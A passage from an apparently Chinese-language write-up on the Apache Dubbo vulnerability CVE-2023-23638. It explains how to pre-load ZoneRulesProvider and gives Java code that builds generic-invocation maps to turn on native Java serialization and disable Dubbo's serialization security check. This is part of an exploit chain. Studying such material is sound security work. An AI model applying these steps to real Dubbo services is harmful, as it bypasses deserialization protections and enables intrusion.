  注意到TzdbZoneRulesProvider的初始化是被ZoneRulesProvider的类初始化调用的。ZoneRulesProvider的相关代码如下：

![](img/CVE-2023-23638_1/image_-131oQ8pVF.png)

 可以看到在ZoneRulesProvider类的static代码块中调用的new TzdbZoneRulesProvider()。static块的代码在程序被运行起来后，之后最多加载一次。因此如果可以让这个ZoneRulesProvider类在我们执行攻击前被加载一次，那么我们在执行攻击时就不会再加载这块代码，也就不会报错了。

 有了这个方法，第一时间就想到，dubbo 的泛化调用可以初始化并newIntance类，并且TzdbZoneRulesProvider是ZoneRulesProvider的子类，ZoneRulesProvider在newIntance时初始化其弗雷，从而调用传ZoneRulesProvider类的static代码。基于这个想法，构造如下代码：

```java
private static Map getInstance() throws IOException {
    HashMap map = new HashMap();
    map.put("class", "java.time.zone.TzdbZoneRulesProvider");
    return map;
}

private static Map getProperties() throws IOException {
    Properties properties = new Properties();
    properties.setProperty("dubbo.security.serialize.generic.native-java-enable","true");
    properties.setProperty("serialization.security.check","false");
    HashMap map = new HashMap();
    map.put("class", "java.lang.System");
    map.put("properties", properties);
    return map;
}

```

